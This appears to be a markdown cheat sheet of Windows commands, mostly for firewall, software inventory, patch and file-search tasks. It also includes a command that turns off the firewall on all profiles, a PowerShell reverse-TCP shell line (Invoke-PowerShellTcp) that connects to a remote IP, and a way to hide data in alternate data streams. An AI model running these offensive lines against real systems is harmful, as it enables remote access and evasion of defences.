 ## Windows Commands


|:---	|---:|
|commands 	|description|
|:---	|---:|
|`netsh advfirewall show allprofiles state`|windows firewall check status|
|:---	|---:|
|`netsh advfirewall show currentprofile`|windows firewall show profile|
|:---	|---:|
|`netsh advfirewall firewall show rule name=all`|windows firewall show rules|
|:---	|---:|
|`netsh advfirewall set allprofiles state off`|windows firewall disable|
|:---	|---:|
|`netsh advfirewall set allprofiles state on`|windows firewall enable|
|:---	|---:|
|`wmic product get name, version, vendor`|list installed applications|
|:---	|---:|
|`wmic qfe get Caption, Description, HotFixID, InstalledOn`|list installed patch|
|:---	|---:|
|`where /R C:\ file.exe`|search file|
|:---	|---:|
|`type file.txt | findstr /si "KB5013624"`|search content|
|:---	|---:|
|`Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 8080`|powershell reverse tcp|
|:---	|---:|
|`echo secrettext > file.txt:showme`|create file with alternate data stream(ADS)|
|:---	|---:|
|`dir /R`|inspect file with alternative data stream(ADS)|
|:---	|---:|



